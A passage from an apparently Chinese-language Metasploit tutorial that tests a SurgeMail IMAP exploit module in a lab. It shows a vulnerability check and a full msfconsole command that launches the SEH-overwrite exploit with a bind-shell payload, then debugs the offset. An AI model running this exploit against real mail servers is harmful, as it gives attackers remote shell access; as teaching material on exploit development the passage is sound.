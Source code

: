 #### 测试我们的exploit module
Some of the options are already configured from our previous session (see IMAPPASS, IMAPUSER and RHOST for example). Now we check for the server version:

```
msf exploit(surgemail_list) > check

[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[+] The target is vulnerable.
```
好的，我们运行debugger ，连接到surgemail.exe上来调试这个exploit，看是否偏移位置重写的SEH是正确的。

```
root@kali:~# msfconsole -q -x "use exploit/windows/imap/surgemail_list; set PAYLOAD windows/shell/bind_tcp; set  RHOST 172.16.30.7; set  IMAPPWD test; set IMAPUSER test; run; exit -y"
[*] Started bind handler
[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Sending payload
```
<img src="images/03/exploit04b.png" width="480">

offset是正确的，可以在执行位置设置断点。
